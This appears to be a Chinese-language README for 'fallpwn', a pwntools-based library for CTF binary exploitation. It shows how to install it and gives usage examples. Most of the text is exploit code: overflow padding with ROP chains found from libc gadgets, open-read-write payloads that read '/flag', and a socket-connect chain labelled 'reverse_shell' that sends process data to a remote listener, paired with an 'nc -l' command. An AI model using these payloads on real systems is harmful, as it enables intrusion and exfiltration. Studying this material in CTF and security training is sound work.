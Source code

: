 [toc]

# fallpwn

## 安装

依赖：

```tex
pwntools
```

使用`pip`即可

```bash
pip install fallpwn
```

## 使用

### 获得gadgets

只需要传入`libc`的`ELF`对象，即可直接获得常用`gagdet`地址

```python
libc.address = libc_base # 使用前先设置libc基地址
finder = GadgetsFinder(libc) # 传入libc的elf对象

gadgets = finder.get_gadgets() # 获得gadgets字典，可以像正常字典一样使用
pop_rdi_ret = gadgets['pop_rdi']
leave_ret = gadgets['leave_ret']
```

### 生成常用ROP payload

> syscall

生成指定`syscall`的`payload`：

```python
payload = b'a'*0x18
payload += rop.syscall(0, 0, elf.bss()+0x400, 0x8)
payload += rop.syscall(1, 1, elf.bss()+0x400, 0x8)

sh.send(payload)
sh.send('/flag\x00')

sh.interactive()
```

> orw

可以生成`orw`的`payload`：

```python
# 定义对象
finder = GadgetsFinder(libc)
rop = RopPayload(libc)
# 获得字典
gadgets = finder.get_gadgets()
pop_rdi = gadgets['pop_rdi']

# 生成orw payload
payload = b'a'*0x18
payload += rop.read(libc.address-0x100, 0x10)
payload += rop.ropchain(libc.address-0x100)

sh.send(payload)
sh.send('/flag\x00')

sh.interactive()
```

此外，`rop.ropchain()`还有多种参数，例如`open`可选`openat`，`orw`可选`sendfile`等。

> socket + connect +write

可以生成将数据发送到远程监听处，以及生成所需的`socket_address`的`payload`：

```python
# 定义对象
finder = GadgetsFinder(libc)
rop = RopPayload(libc)
# 获得字典
gadgets = finder.get_gadgets()

# 发送数据到远程
payload = b'a'*0x18
payload += rop.read(libc.address-0x100, 0x10) # 发送connect所需payload
payload += rop.reverse_shell(libc.address-0x100) # socket + connect
payload += rop.write(gadgets['/bin/sh'], fd=3) # 使用write发送数据

sh.send(payload)
sh.send(rop.get_sockaddr_payload(ip='127.0.0.7', port=9999)) # 发送connect所需payload
sh.interactive()
```

在指定`ip`的服务器进行监听即可：

```bash
nc -l -vv 9999
# 或nc -l -p 9999
```

